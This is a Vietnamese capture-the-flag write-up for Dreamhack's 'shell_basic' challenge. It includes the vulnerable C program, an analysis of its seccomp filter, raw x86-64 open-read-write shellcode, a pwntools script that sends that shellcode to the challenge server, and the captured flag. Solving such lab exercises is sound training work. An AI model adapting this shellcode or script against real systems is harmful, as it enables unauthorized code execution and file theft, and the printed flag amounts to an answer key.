


# Decription


## Source

```c
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

### Problem
```c
Ta thấy trong mã nguồn có seccomp_rule_add.
Đây là hàm để thêm 1 số quy tắc vào . Cho phép ta sử dụng/chặn 1 số syscall.
Ta sử dụng seccomp-tools dump để xem các seccomp nào được phép sử dụng:
```

```c
Chỉ không cho phép system call hợp lệ là execve (syscall 59) và execveat (syscall 322)
Tức là ngoài execve hoặc execveat thì ta có thể sử dụng những syscall khác.


"char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);"
Đoạn này sẽ cho phép shellcode có quyền read/write/execve.

-> bài này sử dụng shellcode để open flag.txt read flag, write flag.
```
#### Solve
```c
shellcode = \x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```
##### Flag
```c
Flag = b'DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
```
###### Full Script
```c
from pwn import *

context.arch = "amd64"
p = remote("host8.dreamhack.games", 21303)
# p=process('./shell_basic')

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendlineafter('shellcode: ', shellcode)
print(p.recv())

```
